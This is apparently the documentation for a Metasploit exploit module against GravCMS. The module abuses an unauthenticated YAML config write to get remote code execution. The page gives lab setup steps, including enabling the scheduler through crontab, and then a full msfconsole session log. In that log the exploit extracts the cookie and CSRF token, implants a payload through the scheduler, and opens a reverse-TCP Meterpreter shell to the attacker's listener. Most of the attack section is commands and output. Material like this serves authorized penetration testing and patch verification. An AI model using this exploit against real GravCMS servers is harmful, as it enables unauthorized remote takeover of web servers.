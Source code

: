 ## Vulnerable Application

### Description

This module exploits arbitrary config write/update vulnerability to achieve remote code execution. Unauthenticated users can execute a
terminal command under the context of the web server user.

In versions 1.10.10 and earlier, an unauthenticated user can execute some methods of administrator controller without needing any
credentials.Particular method execution will result in arbitrary YAML file creation or content change of existing YAML files on the system.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/) .

### Setup

GravCMS requires only PHP and a web server to run. Please visit following url to find out required php packages.

[https://learn.getgrav.org/17/basics/requirements](https://learn.getgrav.org/17/basics/requirements)

```
wget https://getgrav.org/download/core/grav-admin/1.7.8
unzip -x 1.7.8
chown -R www-data:www-data grav-admin
```

Once you finished the installation, visit the GravCMS and complete the admin user creation process.

Scheduler is not enabled in the default installation. It has a very important role during the exploitation.
To finish up the installation, execute the following command to enable the scheduler.

```
(crontab -l; echo "* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1") | crontab -
```

## Verification Steps

1. Follow [Setup](#setup) and install the application.
2. Run `msfconsole`
3. Set `RHOSTS`
4. Set `LHOST`
5. Execute `run` command.
6. You should get a shell.

## Options

### TARGETURI

The base path to GravCMS. The default value is `/`.

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/gravcms_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.179.131
RHOSTS => 192.168.179.131
msf6 exploit(linux/http/gravcms_exec) > set LHOST 172.26.253.227
LHOST => 172.26.253.227
msf6 exploit(linux/http/gravcms_exec) > options

Module options (exploit/linux/http/gravcms_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.179.131  yes       The target host(s), range CIDR identifier, or hosts file with
                                        syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.26.253.227   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/http/gravcms_exec) > check
[*] 192.168.179.131:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 172.26.253.227:4444
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait for 1 minute...
[*] Sending stage (39282 bytes) to 172.26.240.1
[*] Cleaning up the the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (172.26.253.227:4444 -> 172.26.240.1:53912) at 2021-04-11 15:32:01 +0300

meterpreter > pwd
/var/www/html/grav-admin
meterpreter > getuid
Server username: root (0)
```

